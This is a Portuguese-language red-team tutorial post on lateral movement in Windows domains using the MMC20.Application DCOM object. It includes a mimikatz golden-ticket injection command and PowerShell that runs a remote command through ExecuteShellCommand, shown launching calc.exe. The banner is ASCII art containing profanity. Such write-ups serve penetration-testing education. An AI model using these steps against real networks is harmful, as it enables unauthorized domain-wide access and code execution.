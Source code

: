 ```yaml
---
layout: post
title: Lateral Movement Technique using Microsft MC20 Component Object (MMC20.Application)
author: nagini
author_url: 
image: /assets/banners/nag.png
description: "Entenda o que é o MMC20.Application e como utilizá-lo para movimentação lateral em uma rede"
toc: true
---
```


```
           ___
          (___)     .-----------.
   ____          ,- | fuck off! |
 _\___ \  |\_/| /   `-----------` 
\     \ \/ , , \ _ _
 \__   \ \ ="= //|||\
  |===  \/____)_)||||
  \______|    | |||||
      _/_|  | | =====
     (_/  \_)_)   
  _________________
 (                _)
  (__   '          )
    (___    _____)
        '--'
```

Aqueles que estão familiarizados com engagements em Red Team, devem conhecer técnicas
comuns de movimentação lateral, dentre elas, as mais comuns são WinRM, wmiexec/psexec,
smbexec, Scheduled Tasks... Porém, muitas das vezes ao realizar um procedimento tão conhecido
pode sempre acabar gerando algumas flags que denunciariam o engage dos operadores.

# Introdução

Introduzindo o cenário, após efetuar um Kerberoasting e conseguir um acesso administrativo
em um servidor comum, utilizei essa técnica para fazer a movimentação lateral, posteriormente
eu utilizaria essa técnica em todo o domínio com um golden ticket impersonated, tornando essa
movimentação possível sem necessidade de credenciais.

Mas para entender como essa técnica funciona, é preciso entender um pouco sobre [https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model]COM (Component
Object Model) e [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0]DCOM (Distributed Component Object Model)

# Component Object Model (COM)

COM é um sistema com um set de funções chamado de interface, com a finalidade de
criar componentes, objetos que serão posteriormente usados para interagir com outros
objetos. Eles podem ser instanciados em um processo comum, em uma thread ou até mesmo
remotamente

Basta utilizar qualquer linguagem do framework .NET para compilar um COM, a linguagem
e sua implementação são responsabilidades do programador.

# Distributed Component Object Model (DCOM)
 
Essa implementação torna possível a comunicação desses componentes pela rede, desde
que a interface exista nas duas máquinas. Cumprindo esse único requisito, você pode especificar
um UNC path ou diretamente o servidor e começar a comunicação, desde que você tenha tal
permissão.

Personificando golden ticket 
```PowerShell
PS> mimikatz.exe "kerberos::ptt C:\Tickets\gold.kirbi"
* File: 'C:\Tickets\gold.kirbi': OK```

Com o ticket carregado na memória (personificado), você pode utilizar o próprio 
PowerShell para interagir localmente ou remotamente com algum componente, para
realizar a movimentação lateral, vamos trabalhar remotamente com a interface.

Antes de mais nada, utilizamos a função CreateInstance com o Macro GetTypeFromProgID
para nos conectarmos a interface remotamente, feito isso, podemos listar todas suas
funções

Para a exploração, vou usar a classe MMC20.Application da Microsoft, após estabelecer a 
conexão com ela, podemos listar as funções da interface e usar e abusar delas para comprometer
o servidor.

Realizando a conexão com a DCOM remotamente e listando suas funções
```PowerShell
PS> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.1.10"))
PS> $dcom.Document.ActiveView | Get-Member

Name                    MemberType                Definition
----                    ----------                ----------
ExecuteShellCommand     Method                    void ExecuteShellCommand(string, string, string, string)
```

Tendo em vista que a conexão foi estabelecida com sucesso, podemos 
invokar esse método, basta seguir sua definição.

Realizando conexão com a classe MMC20.Application (DCOM)
```PowerShell
PS> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.1.10"))
PS> $dcom.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)

C:\Windows\System32> tasklist | findstr "calc.exe"
calc.exe        6467 Console    1   3 922 K
```

